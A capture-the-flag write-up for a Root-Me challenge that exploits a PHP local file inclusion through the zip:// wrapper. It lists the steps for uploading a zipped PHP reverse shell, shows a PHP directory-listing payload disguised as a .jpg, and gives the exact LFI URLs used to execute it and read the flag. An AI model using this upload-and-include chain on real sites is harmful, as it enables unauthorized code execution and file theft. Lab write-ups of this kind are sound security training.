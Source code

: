 # Local-File-Inclusion: Wrappers
### 1. Recon

![image](https://user-images.githubusercontent.com/106916011/179256914-37030c33-4e06-4db5-8c48-f33b7af78912.png)

Here, the website provide a Image upload to user, so I will upload a jpeg file for testing.
After processing successfully, The image is embedded into the surface of the website. Use view-source to see how it embedded

![image](https://user-images.githubusercontent.com/106916011/179350737-604a09e6-6848-4e01-a7aa-9b5a19142e97.png)

Now, because I got a hint "Wrappers" and this image upload function then I'm gotta look up a Wrapper relating to a file handler.
The outcome is Wrapper zip:// which is satisfied my condition. The zip wrapper processes uploaded .zip files server side allowing the upload of a zip file using a vulnerable file function exploitation of the zip filter via an LFI to execute. A typical attack example would look like:
1. Create a PHP reverse shell
2. Compress to a .zip file
3. Upload the compressed shell payload to the server
4. Use the zip wrapper to extract the payload using: php?page=zip://path/to/file.zip%23shell
5. The above will extract the zip file to shell, if the server does not append .php rename it to shell.php instead

To confirm if PHP ZIP Wrapper is available on this website, I send a random payload:
```powershell
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://shell.jpg%23payload
```
And server sends back a response 
![image](https://user-images.githubusercontent.com/106916011/179352866-9c40ae61-22fd-43ee-ad5a-44350fcc73fa.png)
not any errors about zip:// is not supported so it is worth trying.

### 2. Exploit
creating a php file to scan every directory.
```powershell
<?php
$path = getcwd();
$items = scandir($path);

echo "<p>Content of $path</p>";
echo '<ul>';
foreach ($items as $item) {
    echo '<li>' . $item . '</li>';
}
echo '</ul>';
?> 
```
I zip it and rename to .JPG (the php:zip:// wrapper does not require the zip file to have any specific extension) then upload to server via image upload function.
appending its source dir to our payload, and there is my payload:
```powershell
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/jNDpWhjlA.jpg%23a
```

Here, it work very well

![image](https://user-images.githubusercontent.com/106916011/179353937-f587357a-49ee-4e0c-9e76-a72f15039e18.png)

Next, I need to read source of flag-mipkBswUppqwXlq9ZydO.php. Repeat process with reading source php script, I get my challange successful.

![image](https://user-images.githubusercontent.com/106916011/179354098-b4dea985-6db0-4d64-99cd-85ed5736bf46.png)




